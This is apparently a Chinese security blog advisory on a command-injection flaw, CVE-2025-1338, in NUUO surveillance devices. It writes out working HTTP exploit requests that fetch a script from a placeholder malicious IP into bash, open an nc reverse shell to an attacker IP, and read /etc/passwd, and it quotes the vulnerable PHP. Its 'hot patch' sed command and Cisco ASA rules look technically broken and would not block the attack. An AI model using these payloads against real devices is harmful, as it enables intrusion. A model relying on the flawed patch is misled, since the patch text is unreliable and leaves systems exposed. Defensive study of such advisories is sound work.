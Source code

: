 #  核弹级漏洞预警｜NUUO监控设备远程沦陷实录(CVE-2025-1338)   
云梦DC  云梦安全   2025-04-28 01:01  
  
0x01 漏洞杀伤链  
  
攻击向量：  
```
GET /handle_config.php?log=;curl${IFS}http://恶意IP/webshell.sh|bash; HTTP/1.1
Host: target-ip
```  
  
实现效果：  
  
✅ 任意命令执行（代码注入）  
  
✅ /etc/shadow等敏感文件读取  
  
✅ 内网渗透跳板（通过摄像头访问控制网络）  
  
✅ 持久化后门植入（修改固件镜像）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpywWFGcowDD0H4TUjnA63KRehJJzx6AHy1YQwo1qWzPMZgy89O5dwEibpL66tM5wHicTgZm2qBUzJZw/640?wx_fmt=png&from=appmsg "")  
  
  
0x02 技术深度解析  
  
漏洞根源：  
```
// 漏洞代码片段（php/system_functions.php）
$log_command = "echo '" . $_GET['log'] . "' >> /var/log/system.log";
system($log_command); 
```  
  
漏洞特征：  
  
未对log参数进行输入净化  
  
直接拼接操作系统命令  
  
未启用PHP安全模式（disable_functions未配置）  
  
攻击演进：  
```
# 多命令分隔符组合攻击
GET /handle_config.php?log=%0a%0d/bin/bash${IFS}-c${IFS}'mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|/bin/sh${IFS}-i${IFS}2>&1|nc${IFS}攻击者IP${IFS}端口${IFS} >/tmp/f'%0a HTTP/1.1
```  
```
# 文件系统遍历
GET /handle_config.php?log=;cat${IFS}/../../../../etc/passwd HTTP/1.1
```  
  
0x03 影响范围  
  
全系列版本 <= 3.11.0  
  
存在以下特征的NUUO设备：  
  
✔️ Web界面包含/eHelpdesk.php路径  
  
✔️ 系统日志功能模块启用  
  
✔️ 未配置iptables过滤规则  
  
0x04 企业级防御方案  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpywWFGcowDD0H4TUjnA63KRyhcsicQqIJxRt6uXEoaFHsfufiaZ7bnNvEicc1Qyjvp9UlhgkQsDaauwQ/640?wx_fmt=png&from=appmsg "")  
  
  
1. 热补丁脚本（临时防护）  
```
# 通过SSH登录设备执行
sed -i 's/system(/escapeshellcmd(system(/g' /var/www/html/php/system_functions.php
chmod 440 /var/www/html/handle_config.php
```  
  
  
2. 网络层防护（Cisco ASA示例）  
```
access-list NUUO-ACL extended deny tcp any any eq 80 
  url-logging enable 
  regex "GET.*handle_config\.php\?log=.*[;&|${IFS}]"
access-group NUUO-ACL in interface outside
```  
  
  
3. 终极解决方案  
  
立即升级至官方安全版本（需联系nuuo技术支持获取）  
  
禁用Web管理界面非必要功能模块  
  
威胁情报追踪  
  
监测到攻击者正批量扫描全球80端口，攻击流量特征包含：  
```
GET /handle_config.php?log=;wget${IFS}
User-Agent: NUUO-Exploit-Kit/2.0
```  
  
  
